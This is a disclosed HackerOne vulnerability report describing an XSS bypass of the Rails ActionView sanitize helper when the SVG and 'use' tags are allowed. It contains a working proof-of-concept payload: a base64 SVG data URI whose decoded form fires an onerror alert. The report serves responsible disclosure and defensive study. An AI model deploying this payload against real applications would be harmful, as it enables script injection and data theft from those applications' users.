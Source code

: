 # Rails ActionView sanitize helper bypass leading to XSS using SVG tag.

## Report Details
- **Report ID**: 1805873
- **URL**: https://hackerone.com/reports/1805873
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-12-14T20:50:15.845Z
- **Disclosed**: 2023-01-29T12:14:23.096Z

## Reporter
- **Username**: haqpl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
In the specific configuration, it was possible to bypass HTML sanitization by using the `use` tag of the `SVG` element.

In the `index.html.erb`:

```ruby
<%= sanitize "<svg><use href=\"data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEzMzcnIGhlaWdodD0nMTMzNyc+CjxpbWFnZSBocmVmPSIxIiBvbmVycm9yPSJhbGVydCh3aW5kb3cub3JpZ2luKSIgLz4KPC9zdmc+#x\"/></svg>", tags: %w(svg use) %>
```
`use` tag allows to embed another base64 encoded `SVG` containing target XSS payload, base64 after decoding:

```svg
<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='1337' height='1337'>
<image href="1" onerror="alert(window.origin)" />
</svg>
```
`SVG` and `use` tags had to be allowed either in global configuration  `config.action_view.sanitized_allowed_tags = ['svg', 'use']`
or inline with `tags` argument of the helper.

## Impact

XSS could lead to data theft through the attacker’s ability to manipulate data through their access to the application, and their ability to interact with other users, including performing other malicious attacks, which would appear to originate from a legitimate user. These malicious actions could also result in reputational damage for the business through the impact on customers’ trust.

## Attachments
- 2022-09-07_23-29.png
